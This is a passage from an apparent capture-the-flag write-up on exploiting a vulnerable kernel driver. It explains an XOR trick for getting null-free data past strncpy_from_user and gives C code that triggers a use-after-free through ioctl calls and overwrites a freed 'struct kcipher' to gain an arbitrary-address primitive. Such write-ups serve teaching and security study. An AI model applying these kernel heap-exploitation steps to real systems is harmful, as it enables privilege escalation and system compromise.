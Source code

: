 The function `strncpy_from_user` is kinda annoying because it is going to stop copying as soon as it encounters `0x00`-byte.
So the overwritten `struct kcipher` should not contain 0x00-bytes. It is inappropriate for us because then `kciph->ciph_id` would have some 
big value and we won't be able to perform any kind of operation since `do_encode()` validates the value of `ciph_id`.

Here is how we can handle it. Imagine we have a data which contains null-bytes. Let's xor it on userland before submitting to kernel. 
So we xor it with byte it does not contain (0x41 was good in my case). Now the data does not contain null-bytes.
We can submit it to kernel with `cipher_write` to another pre-created `cipher` file. It will set `kciph->str=another_kciph_but_invalid_since_xored_0x41`.
If now we have `kciph->byt=0x41`, we can use `read()` on it which will xor the data again with byte 0x41 (so, de-xor it!). Exactly as needed.

So we have a control of dangling `struct kcipher`. Soooo much can be done now.

## Constructing primitives

### Basic setup
```
void basic_setup() {
    //... 
    struct kcipher_req kciph = {
        .ciph_id = 1, // xor
        .byt = 0x41, // does not change the contents
    };

    puts("[*] setup cfd[0]");
    EXIT_ON_ERR(ioctl(fd, -0x12411100, &kciph) < 0); // should be ok
    cfd[0] = cfd_next++; // predicted

    struct kcipher fake = {
        .ciph_id = 1, // xor
        .byt = 0x43,  // for read: does not change contents
        .size = 0x1000,  // size_t
        .str = 0x0, // arb addr, will be overwritten
        .lock = 0x0
    };

    // kfree(kciph of cfd[1])
    puts("[*] setup cfd[1], trigger kfree");
    kciph.ciph_id = 5; // trigger kfree in device_ioctl
    ioctl(fd, -0x12411100, &kciph); // returns <0 but who gives a damn
    cfd[1] = cfd_next++; // predicted

    xor((char*)&fake, 0x41, sizeof(fake));
    puts("[*] set cfd[0]->str := cfd[1], overwrite `struct kcipher` of cfd[1]");
    EXIT_ON_ERR(write(cfd[0], &fake, sizeof(fake)) < 0);
    
    struct kcipher kcipher_cfd1;
    puts("[*] read (cfd[0]): de-xor cfd[1]");
    prompt();
    EXIT_ON_ERR(read(cfd[0], &kcipher_cfd1, sizeof(kcipher_cfd1)) < 0);

    // kfree(kciph of cfd[2])
    puts("[*] setup cfd[1]->str := cfd[2]");
    kciph.ciph_id = 5; // trigger kfree in device_ioctl
    ioctl(fd, -0x12411100, &kciph); // returns <0 but who gives a damn
    cfd[2] = cfd_next++; // predicted

    char buf[0x200];
    memset(buf, 'X', sizeof(buf));
```